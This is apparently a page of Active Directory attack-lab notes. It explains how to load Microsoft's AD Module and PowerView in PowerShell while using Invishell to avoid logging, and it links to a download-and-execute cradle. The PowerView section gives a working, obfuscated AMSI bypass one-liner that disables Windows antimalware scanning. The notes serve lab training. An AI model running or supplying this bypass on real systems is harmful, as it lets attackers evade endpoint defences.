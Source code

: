 # LOAD NECESSARY POWERSHELL SCRIPTS

<p>Let's start a PowerShell session using Invishell to avoid verbose logging. We will use Microsoft's AD 
Module for solving the tasks of this Hands-On:</p>

<p>The scripts can be loaded into memory from on disk as shown below or from a Download and execute cradel.</p> [Download and execute cradel](https://github.com/josephrw12/attacking_active_directory_notes/commit/542d1970bb433ae76a2f39b54ac634abd8058644) 

<p>In this example the tools are stored on disk in the folder C:\AD\Tools </p>

***The AMSI bypass script below is necessary for PowerView (PV) only and not for the AD Module as it's a Microsoft Signed Binary.***

## AD Module
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

## Powerview
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools>powershell

# AMSI By pass script

PS C:\AD\Tools>
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x')) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;(Get-varI`A`BLE ( ('1Q'+'2U')+'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

PS C:\AD\Tools>. C:\AD\Tools\PowerView.ps1

```
